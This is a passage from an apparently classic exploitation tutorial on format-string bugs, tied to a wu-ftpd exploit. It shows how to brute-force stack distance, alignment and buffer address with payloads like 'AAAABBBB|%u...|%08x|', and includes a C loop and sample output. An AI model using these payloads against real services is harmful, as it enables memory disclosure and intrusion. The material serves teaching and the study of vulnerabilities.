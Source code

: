 Smiler and myself developed this technique further to determine the two
other addresses, the return address `retaddr` and the return address location
`retloc` and used it to build a completely offset independant wu-ftpd exploit
(7350wu [20]).

To brute the distance, you should use a format string like this:

```
"AAAABBBB|stackpop|%08x|"
```

The stackpop depends on the distance we guess. It distance is increased

for every try:

```c title=""
while (distance > 0) {
      strcat (stackpop, "%u");
      distance -= 4;
}
```

If we probe a distance of 32, the format string would look like:

```title=""
"AAAABBBB|%u%u%u%u%u%u%u%u|%08x|"
```

We pop 32 bytes from the stack (8 \* "%u") and print the four bytes at the
32th byte from the stack hexadecimal. In the ideal case the output would
look like:

```title=""
AAAABBBB|983217938177639561760134608728913021|41414141|
```

`41414141` is the hexadecimal representation of `AAAA`, we have hit the
exact distance of 32 bytes. If you cannot reach this pattern by increasing
the distance this can have two reasons: either the distance is too big to
be reached, for example if the format string is located on the heap, or the
alignment is not on a four byte boundary. In the latter case, just prepend
the format string with one to three dummy bytes. Then you can make the
pattern `42414141` to the correct pattern `41414141`.

Once you have the alignment and the distance you can start brute forcing
the format string buffer address. Therefore you use a format string like this:

```title=""
addr|stackpop|______________________________%%|%s|
```

The format string is processed from the left to the right, the `addr` and
the `\_\_\_`sequence will not do anything harmful. The`stackpop` moves the
stack pointer upwards until it points to the `addr` address. The `%s` now
prints the ASCIIZ string from `addr`.

In the ideal case `addr` would point into the `___` sequence of our format
string, where the output would look like:

      garbage|___________________________%|______%%|%s||
